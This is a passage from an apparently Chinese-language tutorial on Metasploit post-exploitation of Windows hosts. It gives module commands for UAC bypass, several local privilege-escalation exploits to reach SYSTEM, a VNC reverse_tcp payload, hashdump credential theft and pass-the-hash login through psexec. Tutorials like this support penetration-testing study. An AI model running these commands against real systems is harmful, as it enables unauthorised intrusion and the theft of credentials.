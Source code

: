 exploit执行会在客户机弹出执行update.exe的弹窗，一旦执行，直接获取更高的shell。

<img src="https://img-blog.csdnimg.cn/20200719124627477.png" alt=""/><br/>
这样就获得了更高权限的shell.但是这种客户机的主人一般不会这么傻到直接运行有shell的程序。

2.还可以使用如下模块

```
use exploit/windows/local/bypassuac  ///需要获取sehll用户组在管理员组

```

这个模块的用法和前面的类似，但是它是上传了包含绕过uac的程序，并不会在客户机的屏幕上弹出框。<br/>
<img src="https://img-blog.csdnimg.cn/20200719170812143.png" alt=""/>

3.还可以用如下模块

```
use exploit/windows/local/bypassuac_injection  //需要获取sehll用户组在管理员组

```

这个同样是不会弹出框，直接内部执行。

4.利用漏洞拿到system

```
use exploit/windows/local/ms13_053_schlamperei 
use exploit/windows/local/ms13_081_track_popup_menu 
use exploit/windows/local/ms13_097_ie_registry_symlink 
use exploit/windows/local/ppr_flatten_rec 
use exploit/windows/local/ms10_015_kitrap0d   //版本限制为sp4-win7x86

```

上面的五个都是提取system的漏洞利用模块。其实不仅仅有这五个，这里只是列举。

第1个和第二个有windows版本的要求，为windows SP0或者SP1<br/>
<img src="https://img-blog.csdnimg.cn/20200719175101608.png" alt=""/><br/>
**注：其实不必这么麻烦，如果能Meterpreter直接迁移到系统的进程里，可以直接执行系统命令的**<br/>
**图形化界面payload**

```
set payload windows/vncinject/reverse_tcp 
set ViewOnly no //可操作

```

#### <a id="hashdump_84"/>hashdump

hashdump用来获取系统账户的用户名和密码的哈希值。

利用 `exploit/windows/smb/psexec`模块和hash后的密码登陆smb服务得到shell

```
use  exploit/windows/smb/psexec

```
